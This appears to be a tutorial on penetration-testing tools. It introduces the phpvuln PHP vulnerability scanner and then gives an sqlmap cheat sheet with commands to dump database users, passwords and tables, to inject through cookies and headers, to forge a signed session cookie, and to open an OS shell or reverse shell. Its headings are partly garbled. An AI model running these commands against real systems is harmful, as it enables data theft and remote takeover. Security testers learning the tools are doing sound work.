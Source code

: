 # phpvuln - sqlmaps - finding vulnerabilities in php code

Hi, I'm Carl Vincent Reyno, a security engineer at HackerOne. I'm going to discuss how to find vulnerabilities in php code and how sqlmap works.

So, According to the Zend (2023), A PHP vulnerability is an exploitable flaw in a PHP application that can be used to gain unauthorized access to systems that comprise or underlie that PHP application.

<b>Here's the dependencies on how to execute this in python3 pre-installed in your computer. 

Let’s install it by using the following command: </b>

```python
apt install python3
```

<b> Installing the PHP  </b>

```python
git clone https://github.com/ecriminal/phpvuln.git
cd phpvuln/
python3 phpvuln.py -h
```

<b> Getting the vulnerability list </b>
<br>
Here you can see the list of many types of vulnerabilities that you can identify in php code with the help of this tool.
```python
python3 phpvuln.py --list-vuln
```

<b> Find Vulnerability </b>
<br>
As you may have come to know about this tool why developers have created this tool. All we have to do is give the path of the php project that we want to investigate and it will identify all the vulnerability by itself.

```python
! python3 phpvuln.py -p < your path of php code >
```
```python
python3 phpvuln.py -p .../.../Desktop/bWAPP/
```

Also you can use the following command if you want to find a specific vulnerability in PHP code.

```python
! python3 phpvuln.py -p < your path of php code > -v < vuln name >
```

```python
python3 phpvuln.py -p /.../.../Desktop/bWAPP/ -v rfi
```
Thus, you can use all the features of this tool one by one and benefit by finding significant vulnerabilities in php code.


<b> For the sqlmaps, we discuss on how php vuln works in the system using linux. Now we need to know how sqlmaps work</b>

Here are the commands from `Generic.py` to generate basic arguments for sqlmap and to get a general idea about the topic:
```python
-u "<URL>" 
-p "<PARAM TO TEST>" 
--user-agent=SQLMAP 
--random-agent 
--threads=10 
--risk=3 #MAX
--level=5 #MAX
--dbms="<KNOWN DB TECH>" 
--os="<OS>"
--technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
--batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
--auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
--proxy=http://127.0.0.1:8080
--union-char "GsFRts2" #Help sqlmap identify union SQLi techniques with a weird union char
```

We are retrieving information from the sqlmaps:

<b>Retrieve Information</b>

<b>Internal</b>
```python
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
--privileges #Get privileges
```
<b>First database data</b>
```python
--all #Retrieve everything
--dump #Dump DBMS database table entries
--dbs #Names of the available databases
--tables #Tables of a database ( -D <DB NAME> )
--columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column
```

We are now creating a SQL Injection Place:

<b> ZAP/BURP Suite Configuration # </b>
```python
sqlmap -r req.txt --current-user
-
```
<b> Getting a Request Rejection # </b>
```python
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id
```
<b> Posting a Request Rejection # </b>
```python
sqlmap -u "http://example.com" --data "username=*&password=*"
```

<b> Inserting some Injections in Headers and Other HTTP Methods # </b>
```python
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```

<b> Indicating if the string is successfully injected in the Headers # </b>
```python
--string="string_showed_when_TRUE" 
```


Sqlmap supports the usage of -e or --eval to process each payload before delivering it with a oneliner in Python. This makes customizing the payload before sending it very simple and quick. In the following example, flask signs the flask cookie session with the known secret before transmitting it:

```python
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```

<b> Implementing Shell Unix in Linux # </b>
```python
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn
```
<b> Auto-Exploiting with SQLMap # </b>
```python
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```
